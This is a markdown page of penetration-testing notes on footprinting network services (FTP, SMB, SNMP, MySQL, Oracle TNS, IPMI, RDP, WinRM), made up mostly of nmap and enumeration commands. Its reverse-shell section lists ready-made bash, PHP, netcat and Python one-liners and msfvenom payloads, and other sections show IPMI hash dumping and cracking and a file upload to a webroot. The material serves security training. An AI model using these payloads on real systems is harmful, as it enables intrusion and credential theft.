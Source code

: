 # 🕵️ Footprinting

- [🌐 Certificate Transparency + IP Resolution + Shodan](https://developer.mozilla.org/en-US/docs/Web/Security/Certificate_Transparency)  
- [📶 CIDR Discovery Script](https://docs.infoblox.com/space/netmri760/357468470)  
- [📦 FTP](https://ubuntu.com/server/docs/set-up-an-ftp-server)  
- [🧩 SMB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/f210069c-7086-4dc2-885e-861d837df688)  
- [📧 SMTP](https://www.rfc-editor.org/rfc/rfc5321.html)  
- [📨 IMAP/POP3](https://support.mozilla.org/en-US/kb/difference-between-imap-and-pop3)  
- [📡 SNMP](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol)  
- [🛢️ MySQL](https://dev.mysql.com/doc/refman/8.0/en/)  
- [🐚 Reverse Shell](https://github.com/leebaird/discover)  
- [🔐 SSH](https://www.openssh.com/manual.html) 
- [🧰 Oracle‑TNS](https://docs.oracle.com/en/database/)
- [🖥️ IPMI](https://www.intel.com/content/www/us/en/developer/topic-technology/ipmi/ipmi-intelligence.html)
- [🔗 RDP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rdpbcgr/ed87a0cb-b228-4dcb-b9f9-d7e4f32e9fcd)  
- [🔗 Windows Remote Management Protocols](https://learn.microsoft.com/en-us/powershell/scripting/wnp/overview-of-windows-remote-management)  
- [📘 Next Steps](https://github.com/RafaHdzCh/pentest-notes/blob/main/docs/02-information-gathering.md)

---

<details>
<summary><strong>🌐 Certificate Transparency + IP Resolution + Shodan</strong></summary>

Subdomain discovery via [crt.sh](https://crt.sh), followed by DNS resolution and Shodan fingerprinting.

```bash
# Initialize Shodan
shodan init <APIKEY>

# Extract subdomains from Certificate Transparency logs
curl -s "https://crt.sh/?q=<DOMAIN>&output=json" | jq -r '.[].name_value' | \
awk '{gsub(/\\n/,"\n")}1' | sort -u | grep -v "CN=" > subdomainlist.txt

# Resolve IPs for discovered subdomains
for i in $(cat subdomainlist.txt); do 
  host "$i" | grep "has address" | grep "<DOMAIN>" | cut -d" " -f4 >> ip-addresses.txt
done

# Perform Shodan footprinting
for i in $(cat ip-addresses.txt | sort -u); do 
  shodan host "$i"
done
```

</details>

---

<details>
<summary><strong>📶 CIDR Discovery Script</strong></summary>

**Identify IP ranges and scan for live hosts using a custom script**

### Key steps:
1. Validate input arguments
2. Identify CIDR block for a given IP
3. Ping all IPs in the range
4. Resolve IPs for a target domain
5. Support options and automation

**Script**: [`CIDR.sh`](../scripts/CIDR.sh)

 </details>
 
---

<details>
<summary><strong>📦 FTP</strong></summary>

**Scan FTP service**

```bash
sudo nmap -sV -p21 -sC -A <IP>
```

**Enumerate FTP settings and anonymously download files**

```bash
# Show configuration without comments
cat /etc/vsftpd.conf | grep -v "#"

# View restricted users
cat /etc/ftpusers

# Recursively download available FTP files
wget -m --no-passive ftp://<USER>:<PASSWORD>@<IP>
```

**Service interaction**

```bash
# nc
nc -nv <IP> <PORT>

# telnet
telnet <IP> <PORT>

# openssl
openssl s_client -connect <IP>:<PORT> -starttls ftp
```

 </details>
 
---

<details>
<summary><strong>🧩 SMB</strong></summary>

**Scan SMB service**

```bash
sudo nmap <IP> -sV -sC -p139,445
```

**Analyze shared folders and user access**

```bash
# Check smb.conf (without comments and semicolons)
cat /etc/samba/smb.conf | grep -v "#\|\;"

# Restart Samba after changes
sudo systemctl restart smbd

# List available shares without credentials
smbclient -N -L //<IP>
```

### Tools:
- [`samrdump.py`](../scripts/samrdump.py)
- [SMBMap](https://github.com/ShawnDEvans/smbmap)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng)

```bash
# Install Enum4Linux-ng
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
sudo cp enum4linux-ng.py /usr/local/bin/enum4linux-ng
sudo chmod +x /usr/local/bin/enum4linux-ng
enum4linux-ng -h
```

</details>
 
---

<details>
<summary><strong>📧 SMTP</strong></summary>

**Scan SMTP service**
```bash
sudo nmap <IP> -sC -sV -p25

sudo nmap <IP> -p25 --script smtp-open-relay -v
```

**Get configuration file**

```bash
cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"
```

**Service interaction**

```bash
telnet <IP> <PORT>
```

</details>

---

<details>
<summary><strong>📨 IMAP POP3</strong></summary>


**Scan SMTP service**
```bash
sudo nmap <IP> -sV -p110,143,993,995 -sC
```

**Service interaction**

```bash
#curl
curl -k 'imaps://<IP>' --user <USER>:<PASSWORD>

#openssl pop3
openssl s_client -connect <IP>:pop3s

#openssl imap
openssl s_client -connect <IP>:imaps
```

</details>

---

<details>
<summary><strong>📡 SNMP</strong></summary>

**Footprinting SMTP service**

```bash
# snmpwalk
snmpwalk -v2c -c public <IP>

# OneSixtyOne
onesixtyone -c /opt/useful/seclists/Discovery/SNMP/snmp.txt <IP>
```

**Get configuration file**

```bash
cat /etc/snmp/snmpd.conf | grep -v "#" | sed -r '/^\s*$/d'
```

</details>

---

<details>
<summary><strong>🛢️ MySQL</strong></summary>


**Scan MySQL service**

```bash
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

**Get configuration file**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**

```bash
# Without a password
mysql -u <USER> -h <IP>

# Using a password
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

---

<details>
<summary><strong>🐚 Reverse Shell</strong></summary>


**PHP**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); ?>
```

**BASH**
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
bash -i >& /dev/udp/<IP>/<PORT> 0>&1
```

**Netcat**
```bash
nc -e /bin/sh <IP> <PORT>
```

**Python**
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Metasploit**
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Meterpreter**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Spawn TTY**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash"); import os; os.putenv("TERM", "xterm"); os.system("export SHELL=/bin/bash");'
export TERM=xterm
```

</details>

---

<details>
<summary><strong>🔐 SSH</strong></summary>


**Scan with SSH-Audit**
```bash
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
./ssh-audit.py <IP>
```

**Get configuration file**
```bash
cat /etc/ssh/sshd_config  | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**
```bash
ssh <USER>@<ip>

ssh -i id_rsa <USER>@<ip>
```

**Port Forwarding**
```bash
ssh -L <LPORT>:<RHOST>:<RPORT> <USER>@<IP>
```

</details>

---

<details>
<summary><strong>🧰 Oracle TNS</strong></summary>

**Scan TNS service**

```bash
sudo nmap -p1521 -sV <IP> --open

sudo nmap -p1521 -sV <IP> --open --script oracle-sid-brute

```

**Oracle-Tools**

Install Oracle-Tools*

[`Oracle-Tools-setup.sh`](../scripts/Oracle-Tools-setup.sh)

Testing ODAT

```bash
./odat.py all -s <IP>
```

**SQLplus Login**
```bash
sqlplus <USER>/<PASS>@<IP>/XE
sqlplus <USER>/<PASS>@<IP>/XE as sysdba
```

**Fix SQLplus Library Path**
```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
sudo ldconfig
```

**File Upload with Oracle**
```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <IP> -d XE -U user -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Download Uploaded File**
```bash
curl -X GET http://<IP>/testing.txt
```

</details>

---

<details>
<summary><strong>🖥️ IPMI</strong></summary>


**Scan with Nmap**
```bash
sudo nmap -sU --script ipmi-version -p 623 <IP>
```

**Scan with Metasploit**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 > set rhosts <IP>
msf6 > show options
msf6 > run
```

**Dump Hashes**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > set rhosts <IP>
msf6 > run
```

**Crack IPMI Hashes HP iLO using a factory default password**
```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

</details>

---

<details>
<summary><strong>🔗 RDP</strong></summary>


**Scan with Nmap**
```bash
nmap -sV -sC -n <IP> -p3389 --disable-arp-ping --script rdp*
```

**RDP Security Check**

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl <IP>
```

**Service interaction**
```bash
xfreerdp /u:<USER> /p:"<PASSWORD>" /v:<IP>
```

</details>

---

<details>
<summary><strong>🔗 Windows Remote Management Protocols</strong></summary>

**WinRM**

**Scan with Nmap**
```bash
nmap -sV -sC <IP> -p5985,5986 --disable-arp-ping -n
```

**Service interaction**
```bash
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```


**Windows Management Instrumentation (WMI)**

**Footprinting the service**
```bash
/usr/share/doc/python3-impacket/examples/wmiexec.py <USER>:"<PASSWORD>"@<IP> "hostname"
```

</details>

---

📘 **Next step:** Continue with [02-information-gathering.md](./02-information-gathering.md)
